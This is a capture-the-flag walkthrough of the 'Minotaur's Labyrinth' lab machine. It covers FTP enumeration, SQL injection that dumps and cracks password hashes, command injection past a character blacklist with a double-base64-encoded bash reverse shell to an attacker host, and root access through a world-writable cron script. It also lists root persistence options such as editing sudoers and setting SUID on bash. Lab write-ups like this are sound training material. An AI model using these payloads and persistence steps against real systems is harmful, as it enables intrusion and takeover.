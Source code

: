 # Minotaur's Labyrinth

**Machine IP may change over the document**

----

## Enumeration

### Nmap: `sudo nmap 10.10.34.233 -oN nmap-initial`

```bash
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
443/tcp  open  https
3306/tcp open  mysql
```

### Gobuster: `gobuster dir -u http://$IP -w common.txt| tee gobuster-scan`

Gobuster scan or any other directory based scan cannot be done as *the server returns a status code that matches the provided options for non existing urls. http://10.10.39.182/b9462028-7e63-44b2-9fb6-135ae540d9be => 302 (Length: 3562).* Meaning server would return a code 302 for every word in wordlist making it useless.

## Flag-1

Doing anonymous login to FTP reveals a bunch of files and also reveals a flag inside a file named *flag.txt*.

## Flag-2

On visiting the IP address at port 80 we are greeted with a login form. Checking the source code of the page reveals *login.js*. Inside this file we have the following code:

```javascript
function pwdgen() {
    a = ["0", "h", "?", "1", "v", "4", "r", "l", "0", "g"]
    b = ["m", "w", "7", "j", "1", "e", "8", "l", "r", "a", "2"]
    c = ["c", "k", "h", "p", "q", "9", "w", "v", "5", "p", "4"]
}
//pwd gen for Daedalus a[9]+b[10]+b[5]+c[8]+c[8]+c[1]+a[1]+a[5]+c[0]+c[1]+c[8]+b[8]
```

We have got a username *Daedalus* with password being generated from three different arrays. Using username `Daedalus` with password `g2e55kh4ck5r` logs us in to User-panel

Searching for *Daedalus* under people we get:

```bash
ID 	Name 		Password
4	Daedalus	b8e4c23686a3a12476ad7779e35f5eb6
```

Searching for user *Daedalus* under People gives a table containing ID, Name and password hash. 

```bash			
[[{"idPeople":"4","namePeople":"Daedalus","passwordPeople":"b8e4c23686a3a12476ad7779e35f5eb6"}]]
```

Trying the simplest SQLi payload: `' or '1'='1` we get the following table from both Creatures and People. Password hashes were cracked using [Crackstation](https://crackstation.net)

```bash
ID 	Name 			Passwordhash 							Password
---------------------------------------------------------------------------
Creatures
1	Cerberos		3898e56bf6fa6ddfc3c0977c514a65a8		soviet911210036173
2	Pegasus			5d20441c392b68c61592b2159990abfe		pizzaeater_1
3	Chiron			f847149233ae29ec0e1fcf052930c044		hiphophugosoviet18	
4	Centaurus		ea5540126c33fe653bf56e7a686b1770		elcentauro
People
1	Eurycliedes		42354020b68c7ed28dcdeabd5a2baf8e		greeklover
2	Menekrates		0b3bebe266a81fbfaa79db1604c4e67f		greeksalad
3	Philostratos	b83f966a6f5a9cff9c6e1c52b0aa635b		nickthegreek
4	Daedalus		b8e4c23686a3a12476ad7779e35f5eb6		g2e55kh4ck5r
5	M!n0taur		1765db9457f496a39859209ee81fbda4		aminotauro
```

Logging in as user *M!n0taur* gives us second flag.

## Flag-3

Once logged in as user *M!n0taur*. We have a link to *secret page*. The page just echoes back whatever string is thrown to it. This could be a possible point for command injection.

```bash
Payload     Response
--------------------------------------------------------------------------------		
hello;pwd   You really think this is gonna be possible i fixed this @Deadalus -_- !!!? 
hello|pwd   /opt/lampp/htdocs
hello=      You really think this is gonna be possible i fixed this @Deadalus -_- !!!?
```

The first two payloads confirm that there is a command injection though some characters might be blacklisted for eg: `;`. That means a normal reverse shell command might not be possible.

```bash
bash -i >& /dev/tcp/$attacker-IP/9001 0>&1
```

Encoding the above command with base64 I had `=` character at the end of my base64 encoded string. As seen in payload no 3, `=` is also a blacklisted character making the payload ineffective. In order to make it work I just need to remove `=` from my base64 encoded string. That can be done easily by encoding the base64 encoded string once again. This removed any bad characters and can now be sent as a payload.

Final payload:
```bash
hello| <base64_encoded_string> |base64 -d|base64 -d|bash
```

Enabling a `netcat` listener on port 9001 and sending the payload results in a reverse shell as intended. Just listing the */home* dir we have a *user* directory where the next flag can be found.

## Root.txt

Trying to find binaries with suid bit set.

```bash
find / -perm -u=s -type f 2>/dev/null
```

After a while it did not respond, so I had to kill the process. Looking manually through */etc/crontab* reveals nothing. After exploring the file system for a bit I found that */timers* directory is world writable/readable.

Even the file */timers/timer.sh* is world readable/writable. Looking at the file it seems to just print a bunch of characters to some file. It seems the file is being executed every minute or so.

Creating a viewable file and adding custom commands to *timer.sh*:

```bash
touch /tmp/file; chmod 666 /tmp/file
echo "id > /tmp/file" > timer.sh
echo "bash -i >& /dev/tcp/$attacker-IP/9999 0>&1" >> timer.sh
```

Enabling a `netcat` listener on port 9999 on waiting for the reverse connection which never came back. Looking at the */tmp/file* we have output of `id` command indicating that the command was executed as root user. It seems the reverse shell has some issues, changing the command inside *timer.sh* file.

```bash
echo "ls /root/ > /tmp/file" > timer.sh
```

After a while we have files inside */root* dir listed to file */tmp/file*. We have a peculiar file with name *da_king_flek.txt*. Outputing the contents of this file. 

```bash
echo "cat /root/da_king_flek.txt > /tmp/file" > timer.sh
```

Checking the */tmp/file* we have our root flag. I did not do root as I could just read the flag file without gaining root access. Though root access can be gained by any of the following methods:

- Changing the root password by replacing the original password with a custom password and using that custom password to gain root access. This can be done by using `openssl` to generate a password and replacing the older password with the new password by using `sed` command. The below hash is generated for string `hello`.

```bash
openssl passwd -1
Password: 
Verifying - Password: 
$1$qG0jgvrP$P2U1THrlcmF5ySwwdXIoe0
```

- Another method would be to set suid bit for */bin/bash* and then use that to gain root privileges.

- Or just setting `sudo -s` as a command that can be used by any user without password by editing/adding appropriate config settings to */etc/sudoers*.
